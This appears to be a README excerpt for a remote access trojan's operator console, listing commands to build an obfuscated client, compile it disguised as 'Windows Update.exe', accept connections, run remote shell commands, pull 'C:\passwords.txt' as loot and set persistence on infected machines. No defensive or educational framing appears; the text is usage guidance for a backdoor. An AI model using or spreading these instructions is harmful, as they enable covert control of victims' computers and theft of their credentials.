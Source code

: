 ### **BUILD A CLIENT**
```bash
# BUILD BASIC CLIENT
LOADER> build client.py 192.168.1.100

# BUILD WITH CUSTOM PORT AND OBFUSCATION
LOADER> build stealth_client.py your-domain.com 4444 obfuscate

# COMPILE TO EXECUTABLE
LOADER> compile client.py "Windows Update.exe"
```

### **DEPLOY CLIENT**
```bash
# RUN CLIENT CONNECTOR
python loader.py client 192.168.1.100 1337

# OR RUN COMPILED EXE
Windows Update.exe
```

## 🎮 USAGE EXAMPLES

### **BASIC COMMANDS**
```bash
# LIST CONNECTED CLIENTS
LOADER> list

# CHANGE LISTEN ADDRESS
LOADER> listen 192.168.1.100:4444

# SELECT CLIENT FOR INTERACTION
LOADER> select 1
```

### **CLIENT INTERACTION**
```bash
# EXECUTE REMOTE COMMANDS
CLIENT/192.168.1.101$ shell whoami
CLIENT/192.168.1.101$ shell ipconfig /all
CLIENT/192.168.1.101$ shell ps aux

# FILE OPERATIONS
CLIENT/192.168.1.101$ upload local_file.txt C:\Windows\Temp\file.txt
CLIENT/192.168.1.101$ download C:\passwords.txt loot.txt

# SYSTEM INFORMATION
CLIENT/192.168.1.101$ info
CLIENT/192.168.1.101$ persistence
```
